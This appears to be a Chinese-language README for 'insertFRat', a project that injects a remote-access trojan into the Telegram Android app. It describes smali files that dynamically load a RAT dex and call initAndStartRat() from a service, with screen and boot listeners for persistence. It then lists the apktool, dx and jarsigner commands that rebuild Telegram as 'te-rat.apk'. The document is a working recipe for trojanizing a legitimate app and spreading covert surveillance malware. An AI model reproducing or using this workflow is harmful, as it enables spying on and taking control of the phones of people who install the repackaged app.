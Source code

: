 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

在Android Studio中编译生成apk文件，接着使用apktool反编译得到的apk。

```shell
apktool d app-debug.apk
```

进入到反编译生成的app-debug文件夹，进入到app-debug/smali/com/hhm/android/otherapp，理论上需要的smali如下：

- myService.smali、myService$1.smali：在服务中动态加载dex并反射执行initAndStartRat()方法启动RAT逻辑的java代码对应的smali。
- ScreenListener.smali、ScreenListener$1.smali、ScreenListener$ScreenBroadcastReceiver.smali、ScreenListener$ScreenStateListener.smali：屏幕事件监听。
- BootReceiver.smali：开机或重启完成监听。

### add
-gradlew makeJar
-dx --dex --output ratdex.jar  rat.jar
-java -jar apktool_2.4.1.jar d app-debug.apk
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

